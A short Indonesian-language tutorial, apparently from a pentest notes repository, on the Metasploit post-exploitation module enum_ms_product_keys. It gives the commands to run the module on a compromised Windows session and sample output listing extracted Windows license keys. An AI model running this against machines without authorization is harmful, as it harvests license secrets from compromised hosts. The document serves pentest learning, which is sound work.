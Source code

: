 # enum_ms_product_keys

Modul `enum_ms_product_keys` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak `product key` (kunci lisensi) dari berbagai produk Microsoft yang terinstal, seperti `Windows` dan `Office`, dengan membaca dan mendekode data dari `registry`.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_ms_product_keys
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Finding Microsoft product keys on ADMIN-PC (192.168.1.53)

Keys
====

 Product             Registered Owner  Registered Organization  License Key
 -------             ----------------  -----------------------  -----------
 Windows 7 Ultimate  admin                                      D4F6K-QK3RD-TMVMJ-BBMRX-3MBMV
 Windows 7 Ultimate  admin                                      JVF76-6TMPY-98BXW-76B7Q-TCGTV


[+] Product keys stored in: /root/.msf4/loot/20250517034031_default_192.168.1.53_host.ms_keys_620108.txt
[*] Post module execution completed
```
